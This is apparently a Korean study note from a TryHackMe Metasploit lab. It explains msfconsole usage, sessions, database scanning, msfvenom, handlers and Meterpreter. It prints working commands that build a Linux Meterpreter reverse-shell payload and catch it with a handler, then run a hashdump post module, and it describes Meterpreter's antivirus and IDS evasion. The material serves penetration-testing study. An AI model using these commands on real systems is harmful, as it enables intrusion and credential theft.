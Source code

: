 



## msf

msfconsole 은 context 로 관리된다. 
그러니까 전역 변수로 세팅되지 않으면 모든 파라미터 세팅들은 사용하고자 하는 모듈을 변경하면 날아갈거다.
로컬 변수 세팅은 
`set rhosts 10.10.165.39`
전역 변수 세팅은 
`setg rhosts 10.10.165.39`
로 가능하다

use module
을 하게되면 context 가 변경됨. 이를 enter 라고 함. 

`show options`
는 선택한 exploit 과 관련된 옵션들을 출력해줌. 
context 에 따라 다른 출력물일것이다. 이를 테면 RHOSTS, RPORT 같은 variable 을 세팅하라고 할 것이다. 
반면에 post-exploitation module 은 SESSION ID 만 요구할 것이다. 
session 은 post-exploitation module 이 사용할 target system 에 존재하는 연결을 의미함. 

`show payloads`

`back` command 를 사용하면 context 를 벗어날 수 있음. 
`info` 를 context 내에서 모듈에 대한 사용하면 많은 정보를 준다.

`search` command 를 사용하면 CVE 와 관련된 exploit 들을 검색해줌. 
그러니까 함께 준 search parameter 와 관련된 모듈들을 찾아주는 것임. 
예를 들면, CVE number 나 exploit name(eternealblue, heartbleed, 등등) 혹은 타겟 시스템을 사용해서 검색을 수행할 수 있다는 것 

Meterpreter ; 
meterpreter agent 라는 Payload 가 있음. 이게 target system 에 로드돼서 얘가 내 컴퓨터에 다시 접속하는 형태로 연결되면 meterpreter prompt 로 볼 수 있음. 

# 모듈 사용하기

모든 모듈 파라미터를 설정했다면 이제 `exploit` 커맨드를 사용해서 모듈을 실행시킬 수 있다. 
run 이라고 하는 커맨드도 alias 로 제공되는데 그 이유는 exploit 이 아닌 모듈들에 exploit 을 하는게 말이 안되기 때문이다. 
예를 들면 port scanner, vulnerability scanner 같은 것들을 실행하는데 exploit 이라고 하는 것은 이상하기 때문. 

exploit -z 로 실행하면 exploit 을 실행하고 session 이 열리자마자 session 을 background 로 감춤


# 세션

vulnerability 가 성공적으로 exploit 되면 session 이 생성될 것이다. target system 과 metasploit 간에 생성된 통신 채널임. 

background command 를 이용해서 session prompt 를 background 로 감추고 msfconsole prompt 로 돌아갈 수 있음. 
혹은 ctrl+z 로도 백그라운드로 만들 수 있음. 


sessions command 로 현재 존재하는 session 들을 확인할 수 있음. 
세션에 붙으려면 session -i 2 이런 식으로 attach 가능


# db 이용하기

postgresql 을 서비스로 실행함
systemctl start postgresql 
database init
msfdb init
workspace add
workspace -a tryhackme
nmap 으로 스캔한 결과물을 모두 db 에 저장
db_nmap -sV -p- 10.10.12.229
db 에 저장된 결과를 기반으로 host 들 나열
hosts
서비스들 나열
services


Metasploit 을 사용하면 어떤 치명적인 취약점도 'low hanging fruit' 으로 보이게 된다. 
쉽게 파악하고 이용할 수 있는 취약점이란 뜻이다. 그리고 어떤 시스템에 대한 발판을 얻게 해줄 수 있고 어떤 경우에는 root 또는 관리자 권한을 얻게 해줄 수 있다는 뜻이다. 

Metasploit 을 사용해서 취약점을 찾는 것은 대상에 대해 scan 하고 fingerprint 를 하는 것에 크게 의존한다. 
이런 단계에서 더 잘할수록 MEtasploit 은 더 많은 옵션들을 제공할 것이다. 
예를 들면 target system 에 돌고 있는 vnc service 가 있을 때 Metasploit 에서 search function 을 사용할 수 있다. 
그 결과는 payload 와 post module 들을 갖고 있다. 


대부분의 exploit 들은 default payload 프리셋을 지니고 있을텐데, 언제든지 show payload 를 사용해서 사용할 수 있는 목록들을 볼 수 있음. 

잘 동작하는 payload 를 선택하는 거는 trial and error 가 될 수도 있다. 왜냐하면 방화벽 룰, 안티바이러스 같은 OS 제한이나 환경제한 때문에.

msfvenom 은 msfpayload 랑 msfencode 를 대체해버린 녀석이고 이게 payload 를 생성하도록 도와줄 것이다. 

msfvenom 이 metasploit framework 상에서 가능한 모든 payload 에 접근할 수 있게 해준다. 그리고 매우 다른 포맷들에서 payload 를 생성하게 해줄 것이다. 
예를 들면 php, exe, dll, elf 등의 포맷들. 그리고 다양한 target system 에 대해 가능함. 


Encoders 

일반적인 상식과 반대로 encoders 는 antivirus 를 우회하는게 목표가 아니다. 이름이 암시하는 것과 같이 payload 를 encode 할 뿐이다. 
어떤 antivirus software 에 대해서 효과적일 수 있으나 현대 난독화 기술을 사용하거나 shellcode 를 삽입하는 방법을 배우는 것이 더 좋은 우회방법이다. 
encoding 예시는 다음과 같음
-e param 을 이용해서 php version 의 meterpreter 가 base64 로 인코딩 되고 output format 은 raw다. 


Handlers

reverse shell 을 사용하는 exploit 과 유사하게 MSFvenom payload 에 의해 생성된 incoming connection 을 받아야할 수도 있다. 
exploit omdule 을 사용할 때 이 부분이 자동으로 exploit module 에 의해 처리가 된다. 이 때 reverse shell 을 구성할 때 어떻게 payload options title 이 보여질지 기억할 거다. catching a shell 이라는 용어가 일반적으로 target 으로부터 연결을 받는다는 용어로 사용된다. reverse shell 이나 meterpreter callbacks 들은 쉽게 handler 를 사용해서 catch 할 수 있음. 

결국 handlers 를 이용해서 들어오는 connection 을 처리하는 것을 할 수 있고, 어떤 처리를 해줄지를 payload 로서 지정한다. 

THM 에서 나온 문제에서는 MSFvenom 으로 만든 payload 를 target system 에 주입( 이 과정은 단순히 scp 나 wget 을 통해 처리함) 한 뒤 
attacking machine 에서 handler 에 payload 를 등록해서 대기하도록 한다. 이 때 두 payload 는 한 쌍을 이룸. 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost=10.10.x.x
set lport=xxxx
run
```

이후 target machine 에서 직접 payload 를 실행한다. 실제 시나리오에서는 이 부분도 어떤 메커니즘으로 실행되게 해야겠지
그러면 meterpreter 가 뜨면서 session 이 연결됨. 
위 과정에서 payload 를 지정안했다면 실패가 나게 되는데, 한 번이라도 실패가 생기면 이후 과정에도 문제가 발생하기때문에 다시 msfconsole 을 실행해야한다. 
session 이 연결되면 background 로 숨기고 post module 을 실행하러 간다. 

```
background
use post/linux/gather/hashdump
set session 1
run
```


Meterpret 

Meterpreter 는 metasploit payload 임. penetration testing process 를 다양한 components 들로 지원하고 있다. 
target system 에서 실행되며 command and control architecture 속의 agent 로서 역할한다. 
그러니까 그냥 remote controller agent
target operating system , file 들과 상호작용할 거고 meterpreter 의 특별한 command 를 사용하게 될거다. 

target system 에 따라 다양한 기능들을 제공하는 여러 버전들이 존재한다. 

Meterpreter 의 동작방식은 다음과 같다. 

target system 에서 실행되지만 설치된 것은 아니다. memory 상에서 돌아가지만 target system 의 disk 에는 존재하지 않음. 
이런 기능은 antivirus scan 에서 잡히지 않기 위함이다. 
기본적으로 많은 antivirus software 는 디스크 상의 새 파일들을 스캔한다. 

또한 meterpreter 는 network 기반의 IPS(Intrusion Prevention System, 침투 방지 시스템) 과 IDS(Intrusion Detection System, 침투 감지 시스템) 에 의해 
발견되는 것도 피하고자 한다. 암호화된 통신으로 attacking system 과 통신하여 회피함. target organization 이 복호화하지 않고 암호화된 트래픽을 조사하지 않는다면 IPS, IDS 솔루션은 그런 활동을 감지할 수 없다. 

예를 들면, meterpreter 로 연결된 세션에서 
pid 와 ps 로 내 프로세스를 찾아보면 spoolsv.exe 로 나온다. 
그렇다면 이 process 가 사용하는 라이브러리는 특별할까? 
`tasklist /m /fi "pid eq 1304"` 로 확인해보더라도 주목할만한 dll 이 나오지 않을 것이다. 


meterpreter payload 는 두 종류가 있다. 
* stagged payalod
  * 두 단계로 payload 가 전송됨. 첫 번째 단계의 payload 를 stager 라고 하는데 이게 설치되고 난 뒤 나머지 payload 를 요청하는 형태.
  * 첫 pyaload 사이즈를 줄일 수 있음.
  * 이는 탐지를 회피하거나 네트워크 제약을 우회하는 데 유리하기 때문
* inline payload
  * 한 단계에 바로 payload 를 보내는 방법.
 

meterpreter 버전을 선택할 때는 다음의 세가지 요소를 고려해라

* target os ( windows? mac? android? or ...)
* target system 에서 사용할 수 있는 컴포넌트( python 이 설치됐는가? php website 인가? ...)
* target system 에 연결가능한 네트워크 타입 ( raw TCPc onnection 을 허용하는가? https reverse connection 만 할 수 있는가? ...)

msfvenom 으로 생성한 standalone payload 를 사용하지 않을 거라면, 선택은 exploit 에 의해 제한될 거다. 
어떤 exploit 들은 default meterpreter payload 가 있다는 걸 알것이다. 


 
